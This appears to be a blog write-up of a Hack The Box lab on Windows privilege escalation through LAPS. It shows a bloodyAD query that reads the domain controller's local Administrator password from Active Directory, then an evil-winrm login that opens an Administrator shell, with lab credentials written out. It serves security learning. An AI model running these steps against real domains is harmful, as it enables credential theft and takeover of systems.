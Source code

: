 ```yaml
---
title: "Windows Privilege Escalation - LAPS"
date: 2025-04-03T22:41:10+05:30
draft: false
github_link: "https://github.com/gurusabarish/hugo-profile"
author: "Gurusabarish"
tags:
  - Placeholder text
  - Sample
  - example
image: /images/post.png
description: ""
toc: 
---
```


# Windows Privilege Escalation - LAPS

Local Administrator Password Solution (LAPS) is a feature in Windows used to backup Administrator password (What is LAPS?).

## Location LAPS file

```
dir "C:\Program Files\LAPS\CSE"
```

## Retrieve Administrator password

Using bloodyAD tool we can retrieve the password.

Installation: 

- git clone --depth 1 https://github.com/CravateRouge/autobloody
- pip install .

```
┌─[eu-dedivip-2]─[10.10.14.219]─[garrisec@htb-9ij5kp5ced]─[~/bloodyAD]
└──╼ [★]$ bloodyAD -u svc_deploy -d bloody.lab -p 'E3R$Q62^12p7PLlC%KWaxuaV' --host 10.129.207.26 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

distinguishedName: CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
ms-Mcs-AdmPwd: 6af%4)3.!G!ghhi.T7[m[r3&
ms-Mcs-AdmPwdExpirationTime: 133875940421676222
```

## Login with password

```
┌─[eu-dedivip-2]─[10.10.14.219]─[garrisec@htb-9ij5kp5ced]─[~/bloodyAD]
└──╼ [★]$ evil-winrm -u Administrator -p '6af%4)3.!G!ghhi.T7[m[r3&' -i 10.129.207.26 -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```
